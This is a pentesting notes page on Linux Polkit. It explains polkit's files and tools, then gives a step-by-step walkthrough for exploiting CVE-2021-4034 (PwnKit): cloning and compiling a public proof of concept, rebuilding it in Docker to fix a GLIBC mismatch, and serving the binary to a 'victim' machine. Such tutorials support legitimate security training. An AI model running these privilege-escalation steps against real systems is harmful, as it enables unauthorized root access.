 ```yaml
---
title: Polkit
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - privilege
  - escalation
  - linux
---
```

# Polkit

PolicyKit (`polkit`) is an authorization service on Linux-based operating systems that allows user software and system components to communicate with each other if the user software is authorized to do so. To check whether the user software is authorized for this instruction, `polkit` is asked.

Polkit works with two groups of files.

1. actions/policies (`/usr/share/polkit-1/actions`)
2. rules (`/usr/share/polkit-1/rules.d`)

Polkit also has `local authority` rules which can be used to set or remove additional permissions for users and groups. Custom rules can be placed in the directory `/etc/polkit-1/localauthority/50-local.d` with the file extension `.pkla`.

PolKit also comes with three additional programs:

- `pkexec` - runs a program with the rights of another user or with root rights
- `pkaction` - can be used to display actions
- `pkcheck` - this can be used to check if a process is authorized for a specific action

The most interesting tool for us, in this case, is `pkexec` because it performs the same task as `sudo` and can run a program with the rights of another user or root.

```shell-session
pkexec -u <user> <command>
# Example:
# pkexec -u root id
```


##  CVE-2021-4034:  Pwnkit 

[https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)

To exploit this vulnerability, we need to download a PoC ([https://github.com/arthepsy/CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034)) and compile it on the target system itself or a copy we have made.

```shell-session
git clone https://github.com/arthepsy/CVE-2021-4034.git
cd CVE-2021-4034
gcc cve-2021-4034-poc.c -o poc
```

Move the poc file to the target machine and execute it to escalate privileges.

Sometimes you may run into the following error:

```
./poc: /lib/x86_64-linux-gnu/libc.so.6: version GLIBC_2.34' not found (required by ./poc)
```

That means your compiled **`CVE-2021-4034` (Polkit pkexec)** PoC binary was built on a system with **GLIBC 2.34**, but your target system has **an older GLIBC version** (probably 2.31 or lower, common on Ubuntu 20.04). 

You can run from your kali a docker image to compile again the poc. 

```
docker run -it --rm ubuntu:20.04 bash
apt update && apt install gcc make -y

git clone https://github.com/arthepsy/CVE-2021-4034.git
cd CVE-2021-4034
gcc cve-2021-4034-poc.c -o poc
```

After that, from your kali, copy the generated poc:

```
docker ps
docker cp <container_id>:/poc ./poc
```

Then transfer it to your victim:

```
python3 -m http.server 8000
```